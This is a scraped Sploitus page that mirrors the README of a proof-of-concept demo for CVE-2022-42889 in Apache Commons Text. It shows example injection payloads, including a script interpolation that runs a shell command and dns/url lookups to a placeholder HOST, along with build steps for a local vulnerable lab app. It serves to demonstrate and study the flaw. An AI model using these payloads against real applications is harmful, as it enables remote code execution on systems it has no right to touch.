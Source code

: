 ```yaml
---
title: Exploit for Code Injection in Apache Commons Text exploit
url: https://sploitus.com/exploit?id=D3891A01-54AE-58CE-A2FE-D466E5464774&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-04-05
fetch_date: 2025-10-04T11:29:12.314262
---
```


# Exploit for Code Injection in Apache Commons Text exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Code Injection in Apache Commons\_Text CVE-2022-42889

2023-04-04 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=D3891A01-54AE-58CE-A2FE-D466E5464774
# CVE-2022-42889-POC
A simple demo application that shows how to exploit the CVE-2022-42889 vulnerability.
Utilizes OOB (Out of Band) services to demonstrate dns and url prefixes.

JavaDocs for commons-text interpolation [commons-text JavaDocs](https://commons.apache.org/proper/commons-text/javadocs/api-release/org/apache/commons/text/StringSubstitutor.html)

Example interpolations
* script:javascript ("${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/blop')}")
* dns ("${dns:address|HOST}")
* url ("${url:UTF-8:http://HOST")

Quote from Rapid7
>The vulnerability has been compared to Log4Shell since it is an open-source library-level vulnerability that is likely to impact a wide variety of software applications that use the relevant object.
>However, initial analysis indicates that this is a bad comparison. The nature of the vulnerability means that unlike Log4Shell, it will be rare that an application uses the vulnerable component of Commons Text to process untrusted, potentially malicious input.
# Prerequisites
* docker
* java
* maven

Java and maven can be skipped if one fetch image from [Docker Hub](https://hub.docker.com/r/korteke/text4shell)
# Usage

Build application
```
mvn clean package
```

Build docker image
```
docker build -t cve-2022-42889-poc .
```

Run docker image
```
docker run --rm -p 8081:8081 -t cve-2022-42889-poc
```

Access application and follow instructions
```
open http://localhost:8081
```

### More information
* [NIST NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)
* [Rapid 7](https://www.rapid7.com/blog/post/2022/10/17/cve-2022-42889-keep-calm-and-stop-saying-4shell/)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
